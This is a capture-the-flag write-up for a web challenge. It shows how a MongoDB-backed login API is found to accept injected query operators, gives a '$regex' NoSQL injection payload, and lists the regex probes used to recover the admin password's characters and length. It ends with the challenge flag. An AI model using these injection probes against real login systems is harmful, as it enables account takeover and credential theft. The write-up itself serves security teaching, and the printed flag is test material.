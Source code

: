 # Mrs. Mint Cake Portfolio

## Recon

On the description of the challenge, we see that there is a login page and that we shouldn't go there. We'll definitely go there.

By going to the website, we immediately see a few important things.
The website's favicon is the same as [MongoDB's](https://www.mongodb.com/).
This indicates that the challenge has something to do with MongoDB.

If we inspect the source code of the portfolio page, we see a hidden dialog element. 
It contains a message from Mrs. Mint Cake to "admin".

On the login page, we see a login form.
If we try username = "admin" and password = "admin", we get an error: `Invalid username and/or password!`.
No dice...

Let's see what requests our browser is doing.
We can see that it is doing a POST request to the route `/api/login`, with the following payload

```json
{
    "username": "admin",
    "password":"admin"
}
```

Let's try a few different payloads and see what kind of errors we can get. For this, we can use Postman or Insomnia or any other HTTP client.

If we try

```json
{}
```

we get a different error! It says "Invalid username!", weird...

Let's try to put a random username, such as "test".

```json
{
    "username": "test"
}
```

We get "Invalid username and/or password!".
If we use "admin" instead of test, like so

```json
{
	"username": "admin"
}
```

we get a different error! It states "Invalid password!".

This is all very weird behavior with no clear pattern, but if we look closely, we can see these as queries to a database.
If we specify the username and password, the API will look for a user with that username and password, which is why it said "Invalid password and/or username!" when we look for username = "admin" and password = "admin". It didn't find any user with that username and password or, putting it another way, the admin's password is not "admin". We can confirm this on our last payload, since just specifying the username found a user, but, as expected, the passwords did not match.

We can deduce that our payload is being directly passed on to the database, which leaves this endpoint vulnerable to NoSQL injection.
We can confirm this by submitting the following payload

```json
{
    "username": "admin",
    "password": {
        "$regex": "^.*$"
    }
}
```

The error we get this time is "Invalid password!" meaning that a user was found, but the passwords did not match.
We can exploit this to find out the admin's password. First of all, we need to find what kind of characters are in the admin's password.

The following regexes are some of the steps I took to do just that.

`"[a-z]"` - this confirms whether or not the password contains any of these characters (yes)
`"^[a-z]*$"` - this confirms whether or not the password is made *only* with these characters (no)

We can repeat the process of adding more and more characters until we know all of the characters that the admin's password is made out of.

`"[A-Z]"` - contains these characters
`"^[a-zA-Z]*$"` - there are still missing characters

`"[0-9]"` - contains these characters
`"^[a-zA-Z0-9]*$"` - there are still missing characters

`"[{}[\\]()!@#$%^&*]"` - contains these characters
`"^[a-zA-Z0-9{}[\\]()!@#$%^&*]*$"` - there are no missing characters

So, the password is made up of the following characters

`0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}[]()!@#$%^&*`

Jeez... Our next task is to find out how many characters the admin's password has. To do that we can use regexes such as `"^.{3,5}`$"` to find out if it's made up of 3 to 5 characters, for instance.

`"^.{0,10}$"` - no
`"^.{0,100}$"` - yes
`"^.{0,50}$"` - yes
`"^.{20,50}$"` - yes
`"^.{30,50}$"` - yes
`"^.{30,40}$"` - yes
`"^.{30,35}$"` - yes
`"^.{32,35}$"` - yes
`"^.{32}$"` - yes, the password is made up of 32 characters

## The exploit

Knowing the information above, we can create a script that, for each character, finds out if it's a lowercase letter, an uppercase letter, a number or a symbol and then does a search to find out the exact character.

As such, we've written the `recoverpw.py` script to extract and derive the password from the website's responses.

> Flag: `SINFCTF2022{n0sQl_1nj3ct10n_1s_s0_mInT_bl0w1ng}`
